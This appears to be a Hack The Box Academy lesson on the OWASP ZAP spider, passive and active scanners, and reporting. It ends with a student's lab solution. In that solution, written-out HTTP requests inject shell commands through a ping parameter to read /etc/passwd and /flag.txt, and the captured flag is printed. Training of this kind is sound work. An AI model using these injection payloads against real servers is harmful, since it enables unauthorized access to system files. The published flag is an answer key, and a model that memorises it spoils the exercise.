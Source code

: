 
---

ZAP also comes bundled with a Web Scanner similar to Burp Scanner. ZAP Scanner is capable of building site maps using ZAP Spider and performing both passive and active scans to look for various types of vulnerabilities.

---

## Spider

Let's start with `ZAP Spider`, which is similar to the Crawler feature in Burp. To start a Spider scan on any website, we can locate a request from our History tab and select (`Attack>Spider`) from the right-click menu. Another option is to use the HUD in the pre-configured browser. Once we visit the page or website we want to start our Spider scan on, we can click on the second button on the right pane (`Spider Start`), which would prompt us to start the scan:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_spider.jpg)

Note: When we click on the Spider button, ZAP may tell us that the current website is not in our scope, and will ask us to automatically add it to the scope before starting the scan, to which we can say 'Yes'. The Scope is the set of URLs ZAP will test if we start a generic scan, and it can be customized by us to scan multiple websites and URLs. Try to add multiple targets to the scope to see how the scan would run differently.

Note: In some versions of browsers, the ZAP's HUD might not work as intended.

Once we click on `Start` on the pop-up window, our Spider scan should start spidering the website by looking for links and validating them, very similar to how Burp Crawler works. We can see the progress of the spider scan both in the HUD on the `Spider` button or in the main ZAP UI, which should automatically switch to the current Spider tab to show the progress and sent requests. When our scan is complete, we can check the Sites tab on the main ZAP UI, or we can click on the first button on the right pane (`Sites Tree`), which should show us an expandable tree-list view of all identified websites and their sub-directories: ![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_sites.jpg)

Tip: ZAP also has a different type of Spider called `Ajax Spider`, which can be started from the third button on the right pane. The difference between this and the normal scanner is that Ajax Spider also tries to identify links requested through JavaScript AJAX requests, which may be running on the page even after it loads. Try running it after the normal Spider finishes its scan, as this may give a better output and add a few links the normal Spider may have missed, though it may take a little bit longer to finish.

---

## Passive Scanner

As ZAP Spider runs and makes requests to various end-points, it is automatically running its passive scanner on each response to see if it can identify potential issues from the source code, like missing security headers or DOM-based XSS vulnerabilities. This is why even before running the Active Scanner, we may see the alerts button start to get populated with a few identified issues. The alerts on the left pane shows us issues identified in the current page we are visiting, while the right pane shows us the overall alerts on this web application, which includes alerts found on other pages:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_alerts.jpg)

We can also check the `Alerts` tab on the main ZAP UI to see all identified issues. If we click on any alert, ZAP will show us its details and the pages it was found on:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_site_alerts.jpg)

---

## Active Scanner

Once our site's tree is populated, we can click on the `Active Scan` button on the right pane to start an active scan on all identified pages. If we have not yet run a Spider Scan on the web application, ZAP will automatically run it to build a site tree as a scan target. Once the Active Scan starts, we can see its progress similarly to how we did with the Spider Scan:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_active_scan.jpg)

The Active Scanner will try various types of attacks against all identified pages and HTTP parameters to identify as many vulnerabilities as it can. This is why the Active Scanner will take longer to complete. As the Active Scan runs, we will see the alerts button start to get populated with more alerts as ZAP uncovers more issues. Furthermore, we can check the main ZAP UI for more details on the running scan and can view the various requests sent by ZAP:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_active_scan_progress.jpg)

Once the Active Scan finishes, we can view the alerts to see which ones to follow up on. While all alerts should be reported and taken into consideration, the `High` alerts are the ones that usually lead to directly compromising the web application or the back-end server. If we click on the `High Alerts` button, it will show us the identified High Alert: ![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_high_alert.jpg)

We can also click on it to see more details about it and see how we may replicate and patch this vulnerability:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_alert_details.jpg)

In the alert details window, we can also click on the URL to see the request and response details that ZAP used to identify this vulnerability, and we may also repeat the request through ZAP HUD or ZAP Request Editor:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_alert_evidence.jpg)

---

## Reporting

Finally, we can generate a report with all of the findings identified by ZAP through its various scans. To do so, we can select (`Report>Generate HTML Report`) from the top bar, which would prompt us for the save location to save the report. We may also export the report in other formats like `XML` or `Markdown`. Once we generate our report, we can open it in any browser to view it:

![ZAP Spider](https://academy.hackthebox.com/storage/modules/110/zap_report.jpg)

As we can see, the report shows all identified details in an organized manner, which may be helpful to keep as a log for various web applications we run our scans on during a penetration test.

---

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.61.133:39523   


+ Q)  Run ZAP Scanner on the target above to identify directories and potential vulnerabilities. Once you find the high-level vulnerability, try to use it to read the flag at '/flag.txt'

Solution:  

1) take target link http://94.237.61.133:39523 put it in OWASP ZAP automated scan
2) start scan in "Attack mode" > let the Active scan, spider crawl , etc finish
3) go to "Alerts" to check vulnerabilities found after scan
4) Two high level vulnerabilities found "Remote OS Command Injection" ,  "SQL Injection"/"SQL Injection - Oracle - Time Based"
5) take the "Remote OS Command Injection"   and review its request payload : in Burp repeater
```
"Remote OS Command Injection" 

GET /devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26 HTTP/1.1
Host: 94.237.61.133:39523
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
![[Screenshot From 2025-04-04 12-19-46.png]]
as show in SS this request executes on target server and returns /etc/passwd  contents in response, therefore we confirm Remote OS Command Injection is there .


Now , create this payload: GET /devtools/ping.php?ip=127.0.0.1&cat /flag.txt& , to solve the Question "try to use it to read the flag at '/flag.txt".
Url encode the payload as well :- in burp repeater
```
GET /devtools/ping.php?ip=127.0.0.1%26cat+/flag.txt%26 HTTP/1.1
Host: 94.237.61.133:39523
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

response for our above request is
```
HTTP/1.1 200 OK
Date: Fri, 04 Apr 2025 06:52:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 156
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>

<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Ping</title>
</head>

<body>
  HTB{5c4nn3r5_f1nd_vuln5_w3_m155}
</body>

</html>
```

Hence we found the flag for this lab : ==HTB{5c4nn3r5_f1nd_vuln5_w3_m155}==
submit it and lab is solved